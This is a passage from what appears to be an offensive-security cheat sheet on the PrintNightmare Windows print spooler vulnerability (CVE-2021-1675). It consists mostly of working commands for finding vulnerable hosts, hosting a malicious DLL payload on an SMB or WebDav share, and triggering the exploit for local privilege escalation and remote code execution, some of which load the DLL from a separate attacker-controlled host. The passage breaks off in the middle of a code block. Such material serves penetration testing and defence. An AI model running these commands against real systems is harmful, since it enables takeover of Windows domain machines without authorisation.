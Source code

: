     ```ps1
    python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
    Protocol: [MS-RPRN]: Print System Remote Protocol
    ```
    
- [It Was All A Dream](https://github.com/byt3bl33d3r/ItWasAllADream)
    
    ```ps1
    git clone https://github.com/byt3bl33d3r/ItWasAllADream
    cd ItWasAllADream && poetry install && poetry shell
    itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
    docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
    ```
    

**Payload Hosting**:

- The payload can be hosted on Impacket SMB server since [PR #1109](https://github.com/SecureAuthCorp/impacket/pull/1109):

```ps1
python3 ./smbserver.py share /tmp/smb/
```

- Using [Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer/blob/main/Invoke-BuildAnonymousSMBServer.ps1) (Admin rights required on host):

```ps1
Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer -Path C:\Share -Mode Enable
```

- Using WebDav with [SharpWebServer](https://github.com/mgeeky/SharpWebServer) (Doesn't require admin rights):

```ps1
SharpWebServer.exe port=8888 dir=c:\users\public verbose=true
```

When using WebDav instead of SMB, you must add `@[PORT]` to the hostname in the URI, e.g.: `\\172.16.1.5@8888\Downloads\beacon.dll`
WebDav client **must** be activated on exploited target. By default it is not activated on Windows workstations (you have to `net start webclient`) and it's not installed on servers. Here is how to detect activated webdav:

```ps1
cme smb -u user -p password -d domain.local -M webdav [TARGET]
```

**Trigger the exploit**:

- [SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)
    
    ```powershell
    # require a modified Impacket: https://github.com/cube0x0/impacket
    python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
    python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
    ## LPE
    SharpPrintNightmare.exe C:\addCube.dll
    ## RCE using existing context
    SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
    ## RCE using runas /netonly